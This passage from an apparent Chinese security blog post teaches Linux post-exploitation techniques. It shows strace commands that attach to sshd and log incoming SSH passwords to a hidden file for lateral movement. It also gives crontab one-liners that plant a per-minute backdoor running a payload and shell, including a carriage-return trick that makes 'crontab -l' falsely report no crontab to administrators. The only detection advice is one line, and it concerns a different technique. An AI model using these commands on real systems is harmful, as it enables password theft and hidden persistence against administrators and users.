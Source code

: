 [![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211117157-1374708307.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211117157-1374708307.png)

#### 4.5 strace监听ssh来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用strace来监听登陆本地的sshd流量。

```
Copy`ps -ef | grep sshd    //父进程PID
strace -f -p 4241 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211719699-1558610383.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211719699-1558610383.png)

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305212145796-1257295497.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305212145796-1257295497.png)

检测：查看shell的配置文件或者 alias 命令即可发现，例如 ~/.bashrc 或 ~/.zshrc 文件查看是否有恶意的 alias

### 0x05 Cron后门

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

cron表达式在线生成：[http://qqe2.com/cron](http://qqe2.com/cron)

```
Copy`(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab -` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305213650119-595237820.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305213650119-595237820.png)

这样执行会在crontab列表里出现，如果是如上执行的话，管理员执行crontab -l就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示"no crontab for root"。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示"no crontab for root":

```
Copy``(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -`` 
```

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214230870-387789665.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214230870-387789665.png)

实际上是他将 cron 文件写到文件中,而 crontab -l 就是列出了该文件的内容:

```
Copy`/var/spool/cron/crontabs/root` 
```

通常 cat 是看不到这个的，只能利用 less、vim 或者 cat -A 看到，这也是利用了cat的一个缺陷，在下一节会主要讲这个。

[![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214447271-1226946787.png)](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214447271-1226946787.png)

```
Copy`#这几个路径都可以存放cron执行脚本,对应的时间不同
/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/` 
```

